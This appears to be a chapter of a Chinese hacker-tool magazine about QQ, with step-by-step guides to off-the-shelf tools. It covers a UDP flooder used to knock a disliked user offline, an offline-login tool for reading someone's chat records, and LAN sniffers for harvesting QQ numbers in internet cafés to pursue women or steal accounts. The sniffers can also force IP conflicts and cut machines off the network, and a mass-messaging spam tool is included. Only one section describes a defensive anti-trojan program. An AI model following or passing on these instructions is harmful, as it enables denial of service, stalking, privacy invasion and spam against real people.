






## 2.18 对付侃豪新办法——阿拉丁攻击器

是不是有时看QQ上的某个哥们很不舒服？现在好了，利用阿拉丁攻击器我们可以轻松叫他狂掉线，下面来讲讲怎么使用。

首先双击运行它，界面如图1。其实原理很简单，这个程序通过UDP攻击对方的QQ端口，以至于对方的信息堵塞，他的QQ就会掉线，其中分为超强攻击、中度攻击还有一般攻击。大家一定要根据自己的实际宽带情况来进行选择攻击方式，像我的是ADSL 512K，在只开一个QQ的情况下我选择中度攻击，要是你选的跟自己的宽带不适合，那么别人不掉线，反而把自己给整掉线了！我们打开一个要攻击好友的QQ聊天窗口在上面可以看到IP以及QQ的端口，如图2。

我们在阿拉丁攻击器中填入“仇人”的IP地址以及QQ所用的端口，如图3。然后点击“一般UDP攻击（小）”，等上1分钟左右，哈哈！怎么样？是不是他已经掉线了！







## 2.19 贺岁版兔密码登录器

使用前提：

- 1. QQ版本为2005贺岁版。
- 2. 对方QQ必须在本机上登录过。

使用方法：将该软件放在QQ目录下，运行该文件后会自动启动QQ，如图1。输入任意密码即可离线登录，用来查看目标QQ号的好友信息、聊天记录等！虽然比较老了点，但现在还是有人在用2005贺岁版的QQ！



## 2.20 局域网MM哪里逃之QQSniffer

在网吧或者别的局域网中发现了让你如痴如醉的MM，想要知道她的QQ号吗？自己又不好意思去问！怎么办呢？小鱼来帮你！我们可以利用QQSniffer来查看所有局域网内的QQ号码，根据那个MM的机号，来找到对应的IP地址，从而找出她的QQ！

此嗅探器只能在支持RAW SOCKET的机器上运行，而且还得是非交换机的局域网内！这个工具非常简单，我们双击运行后即可，接着它会自动弹出cmd窗口，如图1。然后程序就会开始探测整个局域网中所有的QQ号码了，还有另外的用法哦！就是查看所有局域网中的QQ号码，然后看中哪个盗哪个，在后边的“QQ研究院”这个栏目里将有详细的介绍！我们等上大概30秒左右，就能看到结果了，如图2。前面是IP地址，后面是对应的这个IP上登录的QQ号码！简单吧！还不快去捕获MM！





## 2.21 网吧Q号探测器——QQ Sniffer

相信在网吧里使用QQ聊天的朋友们都有过这样的经历，隔壁那位正在使用QQ聊天的PLMM好想认识一下呀，快，去偷偷看她的QQ号码是多少，加她！要“偷”看，太难了吧？再说那样也太不道德了！PLMM不是把QQ隐藏在屏幕最上方了，就是自己视力太差了，唉，脖子都扭酸了，眼睛也快看成斜视了，就是看不到她的QQ号码是多少！偶尔看到前面几位数，后面的却看不到，真是坐立不安，说不定还被那个PLMM发觉你在偷看她，怎么办呢？用它吧！QQ Sniffer！本软件利用网络监听得到同一网吧的QQ号码！

来看看运行环境吧！QQ Sniffer是基于交换网络环境下QQ号码嗅探工具，只在本机运行，不需要事先在远程计算机安装服务端，不管是否开了共享，支持QQ2003到QQ2005的版本，下载该软件后为一RAR压缩包，解压后可直接运行，执行文件名为Sniffer.exe。

## 功能特色：

- 1. 监听网吧在线QQ号码。
- 2. 使某台计算机无法上网。
- 3. 制造IP冲突。
- 4. 强制QQ聊天。










运行后请先选择要监听的网卡，如果选择正确就会自动出现网卡物理地址/本机IP/网关，那我们怎么获得自己的网卡呢？我们在开始→运行→输入cmd（98下是command），在弹出的窗口中输入ipconfig /all，如图1，就能看到自己的网卡地址了。

如果网吧里安装的是集线器（HUB），直接点“监听QQ号码”按钮就可以了，否则，请单击“搜索”按钮（必须搜索到后才能进行后面的操作），搜索网内所有在线的计算机（一次只能搜索一个C类地址段，如果要搜索非本网段的C类IP，请手动“把本机IP/搜索网段”改为要搜索的网段内任意一个合法的IP）；搜索结果显示在“在线主机IP”列表框中，如图2。

然后选择右上方的“搜索”，就能看到很多IP显示出来了，如图3。用“Ctrl”或“Shift”选一个或多个要操作的IP地址，如图4。

至于怎样把IP地址和计算机对应起来，有一点技巧，一般网吧为了便于管理和维护，IP地址最后一部分和座位号相同；你看看自己的IP和座位号，一般很容易发现这个规律，或者打开网上邻居，看到那台计算机名字，用DOS命令ping 计算机名来查看它的IP地址。如果还不行，可以用本工具包的IP冲突来测试：中间的“IP冲突”按钮使所选中的计算机发生IP冲突，此时发生IP冲突的计算机屏幕会出现一个消息提示框，这样你可以确定所选IP是否为要操作的计算机。

> 警告：请不要乱用此功能，否则被网吧老板打出去可不要怪我！

不过你可以用“冲突模拟”试试IP冲突的模拟效果。“掉线”按钮也能使所选的计算机无法上网，效果和下面介绍的类似。

开始探测后，号码会显示出来以及号码的对应IP地址，如图5。我们用鼠标左键单击就会将QQ号复制下来了。

好了，就这么简单，这个软件还荣获了电脑报和3721等多方面主办的全国原创软件大赛创新奖哦，强烈推荐使用！



### 2.22 密码安全锁

QQ的密码被盗大家是否经常遇到？现在给大家介绍一款防盗软件，使用它可以帮助你轻松实现密码不被盗！

这款软件是我从网上最近才发现的，写出来跟大家分享一下！名字是“密码安全锁XP”，最新版本是V1.0，适用系统：Win2000/XP/2003。

密码安全锁可以通过监视系统中非法的后门、木马程序，保护你的系统免受病毒侵害，经过测试它可以防止很多木马，如密码解霸所有版本、QQ盗号木马、网页电邮盗号木马等等多达30多种，可以说是功能强大！想让它工作很简单，只需双击运行，界面如图1所示。

你可以选择下面的“开机自动运行”，这样当你一开机系统就会处于保护状态！



### 2.23 免费广告宣传——孙农QQ群发器

给大家介绍一款宣传自己网站、做广告的必备利器“孙农QQ消息群发器”！它的最大优点是不需要加入对方为好友也可以给对号QQ发送消息，是做广告的好帮手！双击即可运行，界面如图1。

软件有两个功能，上面是“单独聊天”，在“我想跟”后面输入对方QQ号码即可不加她为好友，就能跟她发起聊天了！

下面我来着重介绍它的广告宣传功能，首先单击打开QQ下面的“查找”，打开后你会发现软件和QQ的查找窗口合二为一了，成了连体婴儿，如图2。

选择“高级查找”，然后根据需要选择相应的查找范围，点击查找就能找到一大片了，再在左上方输入你要宣传的网址或者广告内容，一切OK后点击“开始发送”，软件就能为你自动宣传了，如图3。

由于软件是自动根据每一个用户建立临时会话，所以不会向发送验证消息那样不允许发送网址！

